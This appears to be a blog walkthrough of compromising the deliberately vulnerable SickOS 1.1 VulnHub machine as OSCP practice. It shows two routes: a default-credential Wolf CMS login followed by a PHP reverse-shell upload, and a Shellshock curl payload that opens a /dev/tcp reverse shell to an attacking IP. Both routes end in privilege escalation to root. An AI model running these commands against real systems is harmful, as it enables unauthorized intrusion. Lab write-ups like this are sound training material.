 ```yaml
---
title:  "SickOS 1.1 Walkthrough"
header: "SickOS 1.1 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```

The [SickOS series](https://www.vulnhub.com/?q=sickos&sort=date-des&type=vm) from [VulnHub](https://www.vulnhub.com) gives you a small taste of what to expect while purusing your OSCP. Below is a walkthrough of how to compromise SickOS 1.1 and obtain the flag. I've seperated it into two options as there are many different ways to compromise this particular machine. Post or reach out if you know of some other ways!  

{% include toc title="Table of Contents" icon="file-text" %}

# Host Enumeration  
***

Of course we start off with an nmap scan to see what we're working with  
`nmap –sV <TARGET IP>`  
![Nmap Scan](/assets/images/sickosnmap.jpg)  

# Service Enumeration  
***
![Services](/assets/images/sickosservices.JPG)  
  
So at this point I took notes of the ports, likely OS version, and the services running. Since there’s a proxy configured and a closed 8080 port, I went ahead configured my browser through port 3128 with the assumption there’s a website possibly hosted on this server.  

>**Helpful Note:**
You can do this by opening Iceweasel > Properties > Preferences > Advanced > Network > Settings. Select Manual Proxy Configuration and place the IP address and appropriate port and select “OK” once done.  
![Proxy Config](/assets/images/sickosproxyconfig.jpg)  

 Next I navigated to port 8080 with a connection failure and simply tried the standard HTTP port 80 and was presented with a page containing “BLEHHH!!!” on it.  
![Blehhh](/assets/images/sickosblehh.JPG)  

Inspecting the source didn’t reveal anything useful but then I tried robots.txt which contained an interesting folder “/wolfcms”.  
![SickOS Robots](/assets/images/sickosrobots.jpg)  

While manually researching wolfcms, I kicked off a general nikto scan and a dirb scan of the wolfcms directory.

Nikto Usage: `nikto -h <TARGET IP> -useproxy http://<TARGET IP>:<PORT>`  
Dirb Usage: `dirb http://<TARGET IP>/wolfcms -p <TARGET IP>:<PORT>`  

I noted multiple publically released vulnerabilities for Wolf CMS, one in particular was an [Arbitrary File Upload /Execution](https://www.exploit-db.com/exploits/38000/) that seemed to foot the bill if I were able to get logged in. A quick google search revealed the standard login page would be `/admin/` or `/?admin/` depending on the mod_rewrite status. In this case, the correct path was `/wolfcms/?admin/`. Navigating to this URL presented a Wolf CMS login screen.  

![SickOS Wolf CMS Login](/assets/images/sickoswolflogin.jpg)  

At this time I decided to review what my scans came back with as I had a pretty good feel for where this was going from a Wolf CMS standpoint.

**Dirb**  
Dirb revealed several directories but most notably the `/public/` directory which was also mentioned in the vulnerability page mentioned above.  

![SickOS Dirb](/assets/images/sickosdirb.jpg)  

**Nikto**  

Nikto had even more interesting information such as it possibly being vulnerable to shellshock.  
![SickOS Nikto](/assets/images/sickosnikto.jpg)  

This is where the options occur, Option 1 goes after the CMS and Option 2 goes after shellshock. Shellshock is certainly the popular way in but I recommend doing both just for the experience. Just as an FYI, the privilege escalation techniques are different for each but can be done in either scenario.

# Compromise Option 1 - CMS Way  
***
### Breach  
I searched for default username/password combinations but it appears to be generated at install so there wasn’t much luck on that front. So I navigated back to the login screen `/wolfcms/?admin/` to try some basic username/password combos and one of the first tries was a success with admin/admin.  

![SickOS Wolf Main Page](/assets/images/sickoswolfmain.jpg)  

Upon entry, I snooped around a few places just checking out versioning and to see if anything caught my eye. Naturally the files section stuck out like a sore thumb, particularly since it shows read/write permissions and the ability to upload files. Essentially, this is what the exploit noted above was describing; find a way to upload a shell and then navigate to it. As with many others, [pentestmonkey.net’s](http://pentestmonkey.net/) reverse PHP shell comes to the rescue again. I plugged in my attacking machines IP and uploaded it.  

![SickOS Wolf Upload](/assets/images/sickoswolfupload.jpg)  

Since it appears that it’s in the public directory (that I discovered earlier with Dirb), all that is needed is to set up a listener and navigate to the uploaded malicious php page

> **Helpful Note:**
Listener - `nc –nlvp 4444`  

I was then presented with a shell to my attacking machine as the www-data user  

![SickOS Shell 1](/assets/images/sickosshell1.jpg)  

### Privilege Escalation  
 
I noticed an interesting cron entry that ran `/var/www/connect.py` in which the www-data user had write access to. So I replaced the contents of connect.py with a python shell obtained from [Trustedsec](https://www.trustedsec.com/) and set up a listener. After a few seconds I was presented with a shell as the root user which was able to obtain the flag.  

![SickOS root 1](/assets/images/sickosroot1.jpg)  

# Compromise Option 2 - Shellshock Way  
***

### Breach  
From the output of the Nikto scan, it appears that this machine is vulnerable to shellshock. I don’t want to belabor shellshock as it’s very widely publicized and documented well. However, you should be familiar with it as it will likely come up in future endeavors ([link 1](https://fedoramagazine.org/shellshock-how-does-it-actually-work/), [link 2](https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability), [link 3](https://blog.cloudflare.com/inside-shellshock/))

There are many ways to do this, but in my haste I chose to use curl (this would be a great exercise to go through with Burp as well). I set up a listener, and used the below curl command to send to the attacking machine.  

`curl -x http://<TARGET IP>:3128 -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/<ATTACKING IP>/1234 0>&1" http://<TARGET IP>/cgi-bin/status`  

Once the command was sent, I was able to receive a reverse shell as the www-data user.  

![SickOS Shell 2](/assets/images/sickosshell2.jpg)  

### Privilege Escalation  

Once on the machine, I began the information collection phase and came upon an interesting file `/var/www/wolfcms/config.php`. You should always check out the config files, people hardcode all kinds of juicy information in them.  

![SickOS Database Config](/assets/images/sickosdbconfig.jpg)  

As it shows above, the SQL root user has the password of “john@123”. Naturally once you’ve obtained any type of credential you should see if the user can fall victim to password reuse. A quick `cat /etc/passwd` command shows a non-standard user “sickos”. I attempted to SSH as that user and with the credential found in the config file and was able to successfully log in.  

Upon logging, I checked to see if the user had sudo privileges by using `sudo –l` and as you will see below, the user does have the necessary privileges.  

![SickOS Sudo Options](/assets/images/sickossudoop.jpg)  

All that is left to do is `sudo su`  

![SickOS Sudo](/assets/images/sickossudo.jpg)  

Once as the root user you can move to the /root directory and display the flag  

![SickOS root 2](/assets/images/sickosroot2.jpg)  

# Conclusion  
***

I believe there are some additional easter eggs to find here but had to move on to other things. I thought it was a good representation of some of the machines that you'll experience in the OSCP labs. I would consider this machine on the easy side but it does teach you some good lessons like to follow your instincts and solidify your enumeration process.
